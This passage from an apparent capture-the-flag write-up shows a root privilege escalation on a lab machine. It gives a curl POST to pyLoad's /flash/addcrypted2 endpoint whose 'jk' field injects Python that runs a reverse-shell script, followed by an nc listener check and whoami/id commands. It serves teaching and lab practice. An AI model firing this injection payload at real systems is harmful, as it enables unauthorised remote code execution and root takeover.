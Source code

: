 - Execute the vulnerability to trigger the reverse shell
```
curl -i -s -k -x $'POST'
	--data-binary $'jk=pyimport%20os;os.system(\"/bin/bash%20/tmprev.sh\");f=function%20f2(){};&package=xxx&crupted=AAAA&&passwords=aaaa'
	&'http://127.0.0.1:9666/flash/addcrypted2'
```
![](./IMG/45.png)
- Confirm the nc listener
![](./IMG/46.png)
- Success to escalate the privilege to root
- Confirm the current user 
```
whoami
id
```
![](./IMG/47.png)
- Move to root directory